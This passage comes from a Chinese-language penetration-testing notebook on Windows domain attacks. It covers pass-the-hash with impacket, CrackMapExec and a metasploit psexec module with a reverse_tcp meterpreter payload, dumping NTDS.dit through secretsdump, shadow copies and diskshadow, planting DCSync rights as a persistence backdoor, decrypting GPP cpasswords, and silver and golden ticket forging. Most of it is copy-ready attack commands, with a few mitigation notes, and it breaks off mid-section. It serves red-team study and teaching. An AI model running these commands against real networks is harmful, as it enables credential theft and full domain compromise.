    - Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非 administrator)也不能使用哈希传递攻击，会提示拒绝访问。
- 在域环境中
    - 只能是域管理员组内用户(可以是域管理员组内非 administrator 用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。

**攻击必要条件**

- 哈希传递需要被认证的主机能够访问到服务器
- 哈希传递需要被传递认证的用户名
- 哈希传递需要被传递认证用户的 NTLM Hash

**攻击方式**

通常来说，pass-the-hash 的攻击模式是这样的：
1. 获取一台域主机高权限
2. 利用 mimikatz 等工具导出密码 hash
3. 用导出的 hash 尝试登录其他域主机

要完成一个 NTLM 认证，第一步需要客户端将自己要参与认证的用户名发送至服务器端，等待服务器端给出的 Challenge⋯⋯,其实哈希传递就是使用用户名对应的 NTLM Hash 将服务器给出的 Chanllenge 加密，生成一个 Response，来完成认证。

Pass The Hash 能够完成一个不需要输入密码的 NTLM 协议认证流程，所以不算是一个漏洞，算是一个技巧。

比如 SMB 可以直接基于 TCP 协议或者 NetBIOS over TCP，SMB 的认证可以基于 SMB，也可以基于 kerberos，这两种认证方式，前者本质上使用了 hash，后者本质上使用了 ticket，导致了 SMB 的 PtH 和 PtT 攻击存在的基础。

目前常用的 hash 传递工具都是通过 445 端口进行攻击的，也是因为 smb 使用了 ntml 认证，所以导致可以 hash 传递。

- mimikatz

    mimikatz 的 PTH 相关操作见 [mimikatz 笔记](../../安全工具/mimikatz.md#pth)

- wmiexec
    - [Invoke-WMIExec](https://github.com/Kevin-Robertson/Invoke-TheHash)
        ```
        Invoke-Module Invoke-TheHash.psd1
        Invoke-WMIExec -Target 192.168.1.1 -Domain workgroup -Username administrator -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        Invoke-SMBExec -Target 192.168.1.1 -Domain test.local -Username test1 -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        ```

    - [wmiexec](https://github.com/maaaaz/impacket-examples-windows)
        ```
        wmiexec -hashes 00000000000000000000000000000000:ccef208c6485269c20db2cad21734fe7 workgroup/administrator@192.168.1.1 "whoami"
        ```

- WMIC
    ```cmd
    wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”
    ```

- PStools
    ```cmd
    psexec.exe \\ip -accepteula -u username -p password program.exe
    ```

    ```
    psexec \\ip -u user -p passwd cmd /c dir D:\
    ```

- [impacket](https://github.com/SecureAuthCorp/impacket)
    ```bash
    git clone https://github.com/CoreSecurity/impacket.git
    cd impacket/
    python setup.py install
    cd impacket/examples
    ```
    - Psexec.py

        Psexec.py 允许你在远程 Windows 系统上执行进程，复制文件，并返回处理输出结果。此外，它还允许你直接使用完整的交互式控制台执行远程 shell 命令（不需要安装任何客户端软件）。
        ```
        ./psexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - Wmiexec.py

        生成一个使用 Windows Management Instrumentation 的半交互式 shell，并以管理员身份运行。
        ```
        ./wmiexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - Atexec.py

        通过 Task Scheduler 服务在目标系统上执行命令，并返回输出结果。
        ```
        ./atexec.py test/Administrator:Abcd1234@192.168.1.100 whoami
        ```

- metasploit

    目标主机的 Vista 之后的机器，所以只能使用 administrator 用户进行攻击。
    ```bash
    use exploit/windows/smb/psexec # 或 use exploit/windows/smb/psexec_psh
    set rhosts [ip]
    set smbuser [user]          # 域中的 PTH 这里不需要写域前缀
    set smbpass [password]      # 例如: 00000000000000000000000000000000:c780c78872a102256e946b3ad238f661

    set payload windows/meterpreter/reverse_tcp
    set lhost [ip]

    # 工具的参数需要填写固定格式 LM hash:NT hash，可以将 LM hash 填 0(LM hash 可以为任意值)，即 00000000000000000000000000000000:NT hash。
    exploit
    ```

- pth-winexe

    kali 自带的 PTH 套件每个工具都针对 WIN 下相应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个 cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 就需要替换成空的 LM hash 加密值: aad3b435b51404eeaad3b435b51404ee
    ```

- [byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - A swiss army knife for pentesting networks
    ```bash
    pip2 install crackmapexec
    cme smb x.x.x.x -u administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -x whoami
    ```

- [cube0x0/SharpMapExec](https://github.com/cube0x0/SharpMapExec) - c#版本的cme
- [ShawnDEvans/smbmap](https://github.com/ShawnDEvans/smbmap) - SMBMap is a handy SMB enumeration tool

##### kb2871997

> 以下部分内容来自 <sup>[Windows内网协议学习NTLM篇之NTLM基础介绍](https://www.anquanke.com/post/id/193149)、[KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)</sup>

在 type3 计算 response 的时候，客户端是使用用户的 hash 进行计算的，而不是用户密码进行计算的。因此在模拟用户登录的时候。是不需要用户明文密码的，只需要用户 hash。

微软在 2014 年 5 月 13 日发布了针对 Pass The Hash 的更新补丁 kb2871997，能够缓解 PTH, 具体更改为以下几点。
- 支持 “Protected Users” 组；
    - “Protected Users”组是 Windows Server 2012 R2 域中的安全组，“Protected Users”组的成员会被强制使用 Kerberos 身份验证，并且对 Kerberos 强制执行 AES 加密。
- Restricted Admin RDP 模式的远程桌面客户端支持；
    - Restricted Admin RDP 模式是为了避免将 Client 端的凭据暴露给远程系统，同时也产生一种变种的 Pass The Hash（Passing the Hash with Remote Desktop）
- 注销后删除 LSASS 中的凭据；
    - 在这个更新之前，只要用户登录系统，Windows 就会在 lsass 中缓存用户的凭据，包括用户的明文密码、LM/NTLM HASH、Kerberos 的 TGT 票据 / Session Key。
- 添加两个新的 SID；
    - 本地帐户，LOCAL_ACCOUNT（S-1-5-113），所有本地帐户继承自此 SID；
    - 本地帐户和管理组成员，LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP（S-1-5-114），所有管理员组的本地用户继承此 SID。
    - 注意：S-1-5-114 这里在中文操作系统中提供的翻译是“NT AUTHORITY \ 本地帐户和管理员组成员”，但实际上是“所有本地 Administrators 组中的本地帐户”，即域用户即使被加入到了本地 Administrators 组也不继承此 SID。
- LSASS 中只允许 wdigest 存储明文密码。

但 kb2871997 对于本地 Administrator(rid 为 500，操作系统只认 rid 不认用户名，接下来我们统称 RID 500 帐户)和本地管理员组的域用户是没有影响的。

但 ntlm 认证通过之后，对 ADMIN$ 没有写入权限。那么是什么阻止了我们对本地管理员组的非 RID500 帐户使用哈希传递？为什么 RID 500 帐户具有特殊情况？除此之外，为什么本地管理员成员的域帐户也可以免除这种阻止行为。

真正罪魁祸首是远程访问上下文中的用户帐户控制（UAC）令牌筛选

根据微软官方关于远程访问和用户帐户控制的相关文档可以了解到，UAC 为了更好的保护 Administrators 组的帐户，会在网络上进行限制。

对于本地 “管理员” 组中的域用户帐户，文档指出：当具有域用户帐户的用户远程登录 Windows Vista 计算机并且该用户是 Administrators 组的成员时，域用户将在远程计算机上以完全管理员访问令牌运行，并且该用户的 UAC 被禁用在该会话的远程计算机上。

对于远程连接到 Windows Vista+ 计算机的任何非 RID 500 本地管理员帐户，无论是通过 WMI，PSEXEC 还是其他方法(有个例外，那就是通过 RDP 远程)，即使用户是本地管理员，返回的令牌都是已过滤的管理员令牌，但是在域用户被加入到本地管理员组之后，域用户可以使用完全管理员（full administrator）的 Access Token 运行，并且 UAC 不会生效。

实验中域用户 test 能够成功 PTH，而本地用户 test1 pth 无法成功，是因为以 test1 pth 的身份发起的请求被 UAC 拒绝。而 administrator 用户成功的原因同样是因为 UAC。

- **FilterAdministratorToken**

    那如何限制 administrator 的远程登录呢？那就是直接把 FilterAdministratorToken 开启就可以了。路径 ：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken` 设置为 1, 修改之后策略会立即生效，则 RID 500 帐户（即使已重命名）也已注册为 UAC 保护。这意味着使用该帐户的计算机的远程 PTH 将失败，使用 administrator 的远程连接也被拒绝了。

- **LocalAccountTokenFilterPolicy**

    那如何禁用 UAC 的限制？如果注册表 `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` 项存在 (默认不存在) 且配置为 1，将授予来自管理员所有本地成员的远程连接完整的高完整性令牌。这意味着未过滤非 RID 500 帐户连接，并且可以成功传递哈希值！

    默认情况下这个注册表项是不存在的，我们可以用以留作后门，但是有意思的是，在配置 Windows Remoting 的时候，有大量的 Microsoft 文档，建议将 LocalAccountTokenFilterPolicy 设置为 1，以解决或解决各种问题，于是有些运维在搜寻了一堆文章后，会开启该注册表项。

##### PTH with RDP


---

#### PTK

对于 8.1/2012r2，安装补丁 kb2871997 的 Win 7/2008r2/8/2012，可以使用 AES keys 代替 NT hash

**攻击方式**
- **mimikatz**

    mimikatz 的 PTK 相关操作见 [mimikatz 笔记](../../安全工具/mimikatz.md#ptk)

---

### 域

**相关文章**
- [横向渗透-域渗透 PTT、PTH、PTK](http://1984-0day.com/2020/04/05/%E6%A8%AA%E5%90%91%E6%B8%97%E9%80%8F-%E5%9F%9F%E6%B8%97%E9%80%8F-PTT%E3%80%81PTH%E3%80%81PTK/)
- [我所了解的内网渗透——内网渗透知识大总结](https://www.anquanke.com/post/id/92646#h2-10)
- [域渗透之IPC MS14068 Pth Ptt Ptk Kerberoating](https://www.chabug.org/web/686.html)

#### NTDS.DIT

在域内 HASH 是存在 NTDS.DIT 中的， NTDS.DIT 是一个二进制文件，就等同于本地计算机的 SAM 文件，它的存放位置是 `%SystemRoot%\ntds\NTDS.DIT` 。这里面包含的不只是 Username 和 HASH，还有 OU、Group 等信息。

AD 数据库是 Jet 数据库引擎，它使用提供数据存储和索引服务的可扩展存储引擎（ESE）ESE 级索引使对象属性可以快速定位。

ntds.dit 文件由三个主表组成：数据表，链接表和SD表。

破解 ntds.dit 需要结合 SYSTEM 文件

**相关文章**
- [从NTDS.dit获取密码hash的三种方法](https://www.freebuf.com/sectool/176876.html)
- [导出域密码哈希值的多种方法介绍](https://www.freebuf.com/articles/system/177764.html)
- [How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

##### NTDS转储

**Impacket**

- 工具地址 : [impacket](https://github.com/SecureAuthCorp/impacket)

Impacket 是一组 python 脚本，可用于执行各种任务，包括提取 NTDS 文件的内容。impacket-secretsdump 模块需要我们提供 SYSTEM 和 NTDS 数据库文件。

```bash
./secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL

# system：表示系统 hive 文件的路径（SYSTEM）
# ntds：表示 dit 文件的路径（ntds.dit）
```

此外，impacket 可以通过使用计算机帐户及其哈希进行身份验证从 NTDS.DIT 文件远程转储域密码哈希。
```bash
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

**DSInternals PowerShell**

- 工具地址 : [MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

DSInternals PowerShell 模块提供了构建在框架之上的易于使用的 cmdlet。主要功能包括离线 ntds.dit 文件操作以及通过目录复制服务（DRS）远程协议查询域控制器。
```powershell
Save-Module DSInternals -Path C:\Windows\System32\WindowsPowershell\v1.0\Modules
Install-Module DSInternals
Import-Module DSInternals
Get-Bootkey -SystemHivePath 'C:\Users\sanje\Desktop\NTDS\SYSTEM'
Get-ADDBAccount -All -DBPath 'C:\Users\sanje\Desktop\NTDS\ntds.dit' -Bootkey $key
```

**Ntdsxtract**

- 工具地址 : [libyal/libesedb](https://github.com/libyal/libesedb/) - Library and tools to access the Extensible Storage Engine (ESE) Database File (EDB) format.
- 相关文章 : [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)

首先我们需要从 NTDS.dit 文件中提取表格，这里我们可以通过 libesedb-tools 中的 esedbexport 来帮我们完成。Libesedb 是一个用于访问可扩展存储引擎（ESE）数据库文件（EDB）格式的库。当前，ESE 数据库格式被应用于许多不同的应用程序上，如 Windows Search，Windows Mail，Exchange，Active Directory（NTDS.dit）等。

安装
```bash
get https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
cd libesedb-20200418
apt-get install -y autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfig
```

利用该工具从 ntds.dit 文件中转储表格
```bash
esedbexport -m tables /root/Desktop/NTDS/ntds.dit
```

下载 ntdsxtract 提取用户信息和密码哈希值
```bash
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract
python setup.py build && python setup.py install

dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 data --syshive /root/Desktop/NTDS/SYSTEM --passwordhashes --pwdformat john --ntoutfile nthash.txt --lmoutfile lmhash.txt
```

##### Dcsync

DCSync 是 mimikatz 在 2015 年添加的一个功能，能够用来导出域内所有用户的 hash

**相关文章**
- [关于windows下的ACL与dcsync](https://my.oschina.net/u/4587690/blog/4696089)
- [域渗透——DCSync](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/)
- [域渗透——使用MachineAccount实现DCSync](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E4%BD%BF%E7%94%A8MachineAccount%E5%AE%9E%E7%8E%B0DCSync/)

**利用原理**

DCSync 的利用条件：获得以下任一用户的权限：
- Administrators 组内的用户
- Domain Admins 组内的用户
- Enterprise Admins 组内的用户
- 域控制器的计算机帐户

**特权用户**

向域内的一个普通用户添加如下三条 ACE(Access Control Entries)：
- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)
该用户即可获得利用 DCSync 导出域内所有用户 hash 的权限

配合 https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
- 给 test 添加 ACE
    ```
    Add-DomainObjectAcl -TargetIdentity "DC=ffffffff0x,DC=com" -PrincipalIdentity test -Rights DCSync -Verbose
    ```

    

- 给 test 删除 ACE
    ```
    Remove-DomainObjectAcl -TargetIdentity "DC=ffffffff0x,DC=com" -PrincipalIdentity test -Rights DCSync -Verbose
    ```

    

**利用方法**
- mimikatz

    - [mimikatz 笔记](../../安全工具/mimikatz.md#DCSync)

- powershell
    - https://gist.github.com/monoxgas/9d238accd969550136db

**检测方法**
- [cyberark/ACLight](https://github.com/cyberark/ACLight) - 枚举 Active Directory 中所有用户的 ACL，标记出特权帐户

##### 卷影复制

卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

**WMIC**
```
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"

net use k: \pentest.comc$
```

**metasploit**
```bash
auxiliary/admin/smb/psexec_ntdsgrab
windows/gather/credentials/domain_hashdump
hashdump
```

**NTDSUtil**

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

使用 NTDSUTIL 的 IFM 创建（VSS 卷影副本）在 DC 上本地引用 ntds.dit

NTDSUtil 是本地处理 AD DB 的命令实用程序（ntds.dit），并为 DCPromo 启用 IFM 集创建。IFM 与 DCPromo 一起用于“从媒体安装”,因此被升级的服务器不需要通过网络从另一个 DC 复制域数据。
```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```
当创建一个 IFM 时，VSS 快照被拍摄，挂载，ntds.dit 文件和相关数据被复制到目标文件夹中。

**Nishang**
```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

**PowerSploit**
```
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
```

**DiskShadow**

DiskShadow 是一个 Microsoft 签名二进制文件，用于协助管理员执行与卷影复制服务（VSS）相关的操作。这个二进制文件有两个模式 interactive 和 script ，脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。我们可以在脚本文件中添加以下行，以创建新的 volume shadow copy（卷影复制），挂载新驱动，执行复制命令以及删除 volume shadow copy。
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```

需要注意的是，DiskShadow 二进制文件需要从 C:\Windows\System32 路径执行。如果从其它路径调用它，脚本将无法正确执行。
```
diskshadow.exe /s c:\diskshadow.txt
```

直接从解释器运行以下命令，将列出系统的所有可用 volume shadow copy。
```
diskshadow
LIST SHADOWS ALL
```

SYSTEM 注册表 hive 也应该被复制，因为其包含了解密 NTDS 文件内容所需的密钥。
```
reg.exe save hklm\system c:\exfil\system.bak
```

**ntdsutil**
```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```
它将为我们生成两个新文件夹：Active Directory 和 Registry。NTDS.DIT 文件将被保存到 Active Directory 中，而 SAM 和 SYSTEM 文件则将被保存到 Registry 文件夹中。

**vssadmin**

volume shadow copy 是一个 Windows 命令行实用程序，管理员可以使用它备份计算机，卷以及文件（即使操作系统正在使用这些资源）。Volume Shadow Copy 作为一个服务运行，并要求文件系统的格式为 NTFS（默认情况下 windows 操作系统文件格式均为 NTFS）。从Windows 命令提示符执行以下命令，将会创建一个 C 盘的快照，这样我们就可以将其复制到另一个位置（如本地文件夹，网络文件夹或可移动介质）以获取它的访问权限。
```
vssadmin create shadow /for=C:
```
由于我们已经将 C 盘中的所有文件都复制到了另一个位置（HarddiskVolumeShadowCopy1），因此它们不会被操作系统直接使用，我们可以随意访问并复制其中的文件。使用 copy 命令将 NTDS.DIT 和 SYSTEM 文件，复制到本地名为 ShadowCopy 的驱动中的新建文件夹中。
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

---

#### mscash

**相关文章**
- [你并不懂 Mimikatz Part 2 - MSCACHE](https://mp.weixin.qq.com/s/mTpYcHebvlERj9ek2_Pu8Q)

**利用手段**
- mimikatz
    ```bash
    lsadump::cache  # 获取 SysKey 用于解密 NLKM 和 MSCache(v2)
    ```
- [QAX-A-Team/mscache](https://github.com/QAX-A-Team/mscache) - a tool to manipulate dcc(domain cached credentials) in windows registry, based mainly on the work of mimikatz and impacket
    ```
    python mscache.py --security security --system system
    ```

---

#### GPP

关于 windows 组策略的基本知识点可见笔记 [组策略](../../../Integrated/Windows/笔记/组策略.md)

在 GPP 出现之前，很多统一管理的操作只能通过脚本来实现，而 GPP 方便和简化了这样的管理,GPP 你可以将其理解为一个功能点,作用是简单化、规范化组策略的发布和使用。

注 : GPP 漏洞只在 2008 没打补丁版本上存在，超过 2008 版本的系统是没办法写入密码的。

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹 \SYSVOL 下，默认所有域内用户可访问，虽然被加密，但很容易被解密,访问 XML 文件，利用 AES 私钥可以解密 GPP 密码。

在2012年前的某些点外，微软在 MSDN 上发布了 AES 的私钥，它可以用来解密这种密码。因为认证用户（所有域用户或者信任域里的用户）对 SYSVOL 拥有读权限。在域里的任何用户可以搜索 SYSVOL 共享中的带有 cpassword 字样的 XML 文件，里面包含了 AES 加密的密码。


- 微软在 MSDN 上发布的 AES 加密密钥（共享密钥） : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

使用 PowerShell 脚本解密 : https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

参考 https://xz.aliyun.com/t/1653 ,可简化 powershell 脚本如下,替换其中 GPP 密码即可
```powershell
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)

        #Set IV to all nulls to prevent dynamic generation of IV value
        $AesIV = New-Object Byte[]($AesObject.IV.Length)
        $AesObject.IV = $AesIV
        $AesObject.Key = $AesKey
        $DecryptorObject = $AesObject.CreateDecryptor()
        [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)

        return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
    }

    catch {Write-Error $Error[0]}
}
Get-DecryptedCpassword "9XLcz+Caj/kyldECku6lQ1QJX3fe9gnshWkkWlgAN1U"
```

**组策略中该目录下的其他 XML 文件**
- \User\Preferences\Groups
- Services\Services.xml
- ScheduledTasks\ScheduledTasks.xml
- Printers\Printers.xml
- Drives\Drives.xml
- DataSources\DataSources.xml

**相关文章**
- [域安全篇：寻找SYSVOL里的密码和攻击GPP（组策略偏好）](https://www.freebuf.com/vuls/92016.html)
- [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
- [域渗透——利用SYSVOL还原组策略中保存的密码](https://xz.aliyun.com/t/1653)
- [windows2008 GPP漏洞利用](https://bl4ck.in/penetration/2015/08/14/windows2008-GPP%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.html)
- [浅析域渗透中的组策略利用](https://xz.aliyun.com/t/7784)

**修复方案**
- 在每台用于管理 GPO 的电脑上安装 KB2962486 补丁，这样会避免新的凭据放进 GPP 里。
- 删除现有的 GPP 里包含密码的 xml 文件。

---

#### PTT

票据传递攻击（PtT）是一种使用 Kerberos 票据代替明文密码或 NTLM 哈希的方法。PtT 最常见的用途可能是使用黄金票据和白银票据，通过 PtT 访问主机相当简单。

**相关文章**
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [白银票据与黄金票据探究](http://sh1yan.top/2019/06/03/Discussion-on-Silver-Bill-and-Gold-Bill/)
- [Pass the Hash with Kerberos :: malicious.link](https://malicious.link/post/2018/pass-the-hash-with-kerberos/) - Kerberos 中的 PTH
- [如何通过 SSH 隧道进行域渗透的 PtT 攻击](https://paper.seebug.org/321/)
- [How Attackers Use Kerberos Silver Tickets to Exploit Systems ](https://adsecurity.org/?p=2011)
- [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
- [golden ticket和sliver ticket的区别是什么？](https://blog.csdn.net/Ping_Pig/article/details/121228886)
- [Kerberos协议之黄金票据和白银票据](https://y4er.com/post/kerberos-golden-ticket-and-silver-ticket/)

**相关工具**
- [gentilkiwi/kekeo](https://github.com/gentilkiwi/kekeo) - A little toolbox to play with Microsoft Kerberos in C

##### Silver_Tickets

**描述**

白银票据是出现在 TGS_REQ & TGS_REP 过程中的。在 TGS_REP 中，不管 Client 是否有权限访问特殊服务，只要 Client 发送的 TGT 票据是正确的，那么就会返回服务 hash 加密的 tgs 票据。如果我们有了服务 hash，就可以签发 tgs 票据。

**原理**

白银票据主要是发生在第五步骤上,在 AP_REQ 中的 ST 的组成:
```
k(c,tgs)加密[Session_key],[Server_ntlm_hash(Tiket（K(c,s),Client_Name(domainName\Username),TGT_EndTime）)]
```

在第四步骤时，票据生成服务器（TGS）给我们发了上面的数据，在第五步骤时，我们需要发送下面的数据。
```
K(c,s)加密[Authenticator（[DomainName\Username,ServerName(DomainName\Server)]）],[Tiket（Server_ntlm_hash(Tiket（K(c,s),Client_Name(domainName\Username),TGT_EndTime）)）]
```

从需要发送的数据上看，当拥有 Server Hash 时，我们就可以伪造一个不经过 KDC 认证的一个 Ticket，这个也就是白银票据。

PS : Server Session Key 在未发送 Ticket 之前，服务器是不知道 Server Session Key 是什么的。 所以，一切凭据都来源于 Server Hash。

伪造的 `Client-To-Server Ticket`(也有唤作 ST 和 Service Ticket)被称为白银票据。在不与 KDC 通信情况下，通过获取 Server 端服务账号的 NTLM Hash 值，就能伪造该 Server 端服务的票据。不过在 TGT 中已包含了服务实例的唯一标识(SPN 服务)，白银票据就只能访问指定的服务。

**白银票据特点**

1. 不需要与 KDC 进行交互
2. 需要目标服务的 NTLM Hash
3. 从攻击面来看，伪造白银票据的难度比伪造黄金票据的难度较小，因为一个域中的服务器如果对外的话，非常容易被入侵，并且容易被转储 Server。
4. 从防御角度来看，需要开启 PAC 认证，但这会降低认证效率，增加 DC 的负担，最根本的还是要加固服务器本身对外的服务。
5. 因为需要目标机器的 Hash,并且也不是通过伪造 TGT 申请的,因此只能针对对应服务伪造票据(黄金票据直接伪造的是 TGT,而白金票据伪造的是 TGS 发送的票据,也就是说是单向车程)

**白银票据的攻击流程**

1. 获取服务端计算机的服务账号或者服务端计算机账号的 NTLM 哈希（如通过 kerberoast 获取）
2. 通过 mimikatz 的 kerberos::golden 传递域 SID、目标主机名、服务名称、伪造的用户名、等信息创建白银票据
3. 将票据注入到内存，并访问服务

- **mimikatz**

    mimikatz 的 Silver_Tickets 相关操作见 [mimikatz 笔记](../../安全工具/mimikatz.md#Silver_Tickets)

- **ktutil**
    ```bash
    ktutil                      # 使用 ktutil 创建一个 keytab 文件
    ktutil: addent -p uberuser@CORP.SOMEWHATREALNEWS.COM -k 1 -key -e rc4-hmac  # 指定用户和 FQDN 的全大写版本
    Key for uberuser@CORP.SOMEWHATREALNEWS.COM (hex): 88e4d9fabaecf3dec18dd80905521b29  # 输入 rc4-hmac（NTLM）哈希值
    ktutil: wkt /tmp/a.keytab   # 把 keytab 文件写到磁盘上
    ktutil: exit                # 退出
    kinit -V -k -t /tmp/a.keytab -f uberuser@CORP.SOMEWHATREALNEWS.COM  # 使用 keytab 文件创建一个 kerberos ticket
    klist                       # 验证
    ```

**other**

由于白银票据需要目标服务器的 Hash，所以没办法生成对应域内所有服务器的票据，也不能通过 TGT 申请。因此只能针对服务器上的某些服务去伪造，伪造的服务类型列表如下:

| 服务注释                                   |    服务名            |
| -                                         |   -                 |
| WMI 	                                    |   HOST、RPCSS       |
| Powershell Remoteing                      |	HOST、HTTP        |
| WinRM                                     |	HOST、HTTP        |
| Scheduled Tasks                           |	HOST              |
| LDAP 、DCSync                             |	LDAP              |
| Windows File Share (CIFS)                 |	CIFS              |
| Windows Remote ServerAdministration Tools |	RPCSS、LDAP、CIFS |

**白银票据(Silver Tickets)防御**

1. 尽量保证服务器凭证不被窃取
2. 开启 PAC (Privileged Attribute Certificate) 特权属性证书保护功能，PAC 主要是规定服务器将票据发送给 kerberos 服务，由 kerberos 服务验证票据是否有效。

开启方式:将注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters` 中的 ValidateKdcPacSignature 设置为 1。

---

##### Golden_Tickets

**描述**

在 AS_REQ & AS_REP 中，用户使用自身 hash 加密时间戳发送给 KDC，KDC 验证成功后返回用 krbtgt hash 加密的 TGT 票据。如果攻击者有 krbtgt 的 hash，就可以自己给自己签发任意用户的 tgt 票据。

**原理**

黄金票据主要是发生在 kerberos 的第三和第四步骤上。

第二步骤时，AS 发给客户端的数据。
```
[Client_ntlm_hash(K(c,tgs))],[Krbtgt_ntlm_hash(k(c,tgs),Client_name(DomainName\Username),TGT_EndTime)]
```
在第三步骤时，客户端拥有两个数据，一个是自己账号 ntlm_hash 加密的 session_key、一个是 TGT 凭证，而这个 TGT 凭证是 kertgt 的 ntlm_hash 加密的信息。

攻击者在获取了 krbtgt 账号的 NTLM Hash 之后，通过发送伪造的 TGT(包括 sessionkey)给 TGS 换取任意服务的Client-To-Server Ticket（ST，服务票据），从而获得域内的任意服务权限。即拥有黄金票据就拥有了域内若干权限。

如第三步骤中需要发送的内容
```
